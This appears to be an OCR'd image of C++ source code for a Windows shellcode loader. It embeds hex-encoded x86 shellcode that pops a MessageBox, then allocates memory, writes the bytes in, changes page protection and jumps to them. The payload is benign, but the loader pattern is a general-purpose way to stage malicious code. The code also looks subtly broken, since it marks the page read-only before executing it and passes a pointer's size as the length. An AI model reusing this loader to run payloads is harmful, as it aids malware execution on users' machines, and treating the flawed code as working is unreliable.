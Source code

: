 
```cpp
#include <stdio.h>
#include <Windows.h>

int main()
{
    unsigned char shellcode[] =
        "\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9\x64\x8b"
        "\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08\x8b\x7e\x20\x8b"
        "\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1\xff\xe1\x60\x8b\x6c\x24"
        "\x24\x8b\x45\x3c\x8b\x54\x28\x78\x01\xea\x8b\x4a\x18\x8b\x5a"
        "\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0"
        "\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c"
        "\x24\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5a"
        "\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c\x61\xc3\xb2"
        "\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e\x0e\xec\x52\xe8\x9f"
        "\xff\xff\xff\x89\x45\x04\xbb\x7e\xd8\xe2\x73\x87\x1c\x24\x52"
        "\xe8\x8e\xff\xff\xff\x89\x45\x08\x68\x6c\x6c\x20\x41\x68\x33"
        "\x32\x2e\x64\x68\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89"
        "\xe6\x56\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
        "\x24\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68\x61\x67"
        "\x65\x42\x68\x4d\x65\x73\x73\x31\xdb\x88\x5c\x24\x0a\x89\xe3"
        "\x68\x70\x77\x6e\x58\x68\x52\x65\x74\x32\x31\xc9\x88\x4c\x24"
        "\x07\x89\xe1\x31\xd2\x52\x53\x51\x52\xff\xd0\x31\xc0\x50\xff"
        "\x55\x08";

    DWORD OldProction;
    void* exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READ);
    printf("[+] Allocation created successfully %p \n", exec);

    if (WriteProcessMemory(GetCurrentProcess(), exec, shellcode, sizeof(shellcode), NULL)) {
        printf("[+] Shellcode wrote successfully. \n");
        
        
        if (VirtualProtect(exec, sizeof(exec), PAGE_READONLY, &OldProction)) {
            printf("[+] Permission changed successfully. \n");
            ((void(*)())exec)();
        }
        else {
            printf("[-] Cannot change the permission. \n");
        }
    }
    else {
        printf("[-] No permission to write the shellcode. \n");
    }
    return 0;
}

```